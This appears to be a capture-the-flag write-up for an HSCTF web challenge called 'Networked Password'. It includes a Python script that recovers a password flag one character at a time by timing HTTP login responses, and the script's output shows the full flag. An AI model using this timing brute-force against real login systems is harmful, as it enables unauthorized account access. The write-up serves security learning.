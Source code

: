 ## Networked Password
### Category : Web

---

```
Storing passwords on my own server seemed unsafe, so I stored it on a seperate one instead. However, the connection between them is very slow and I have no idea why.

```

So, we are given a link, which asks for a password, and the real password apparently is stored somewhere on a separate server. As I first try to login, I try `password` as password, and obviously, I get a `Incorrect Password`. The Problem Statement, states the output as slow, but I received this pretty quickly. So, next I try to input `hsctf{}`, and this one took some sweet time. So, maybe the validation takes some time?

I write a small script to test out the times, and it turns out as near we get to the flag, the more time it takes. Exactly, 0.5 second more per flag.


To exploit this, I write a script

`exploit.py`
```
import requests
import time
import string

def timediff(flag):
    url = "https://networked-password.web.chal.hsctf.com/"
    data={"password":flag}
    a=time.time()
    r = requests.post(url,data=data)
    b=time.time()
    return (b-a)


charlist = string.printable

if __name__ == "__main__":
    flag="h"
    curr_time_diff=timediff(flag)
    while True:
        for i in charlist:
            timee = timediff(flag+i)
            if(timee-curr_time_diff>0.4):
                flag = flag+i
                print("=> {}".format(flag))
                curr_time_diff = timee
                break 
            else:
                print(flag+i,end="\r")
```

output

```
vipul@ubuntu:~/Noti-fyre$ python3 exploit.py                
=> hs
=> hsc
=> hsct
=> hsctf
=> hsctf{
=> hsctf{s
=> hsctf{sm
=> hsctf{sm0
=> hsctf{sm0l
=> hsctf{sm0l_
=> hsctf{sm0l_f
=> hsctf{sm0l_fl
=> hsctf{sm0l_fl4
=> hsctf{sm0l_fl4g
=> hsctf{sm0l_fl4g}

```
Luckily the flag was small enough to be found in some sane unit of time.